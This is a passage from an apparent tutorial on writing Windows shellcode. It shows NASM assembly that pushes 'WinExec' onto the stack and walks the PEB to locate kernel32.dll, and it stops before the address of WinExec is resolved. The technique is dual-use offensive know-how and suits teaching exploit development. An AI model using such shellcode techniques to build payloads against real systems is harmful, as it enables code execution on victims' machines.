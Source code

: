I doubt anyone understood this, so I again made some animations.

![locate_function1](/images/windows_shellcode/locate_function1.gif)

And from [PEView](http://wjradburn.com/software/) to make it even more clear.

![locate_function2](/images/windows_shellcode/locate_function2.gif)


The assembly to do this is:
```nasm
; Establish a new stack frame
push ebp
mov ebp, esp

sub esp, 18h 			; Allocate memory on stack for local variables

; push the function name on the stack
xor esi, esi
push esi			; null termination
push 63h
pushw 6578h
push 456e6957h
mov [ebp-4], esp 		; var4 = "WinExec\x00"

; Find kernel32.dll base address
mov ebx, fs:0x30
mov ebx, [ebx + 0x0C] 
mov ebx, [ebx + 0x14] 
mov ebx, [ebx]	
mov ebx, [ebx]	
mov ebx, [ebx + 0x10]		; ebx holds kernel32.dll base address
mov [ebp-8], ebx 		; var8 = kernel32.dll base address

; Find WinExec address
```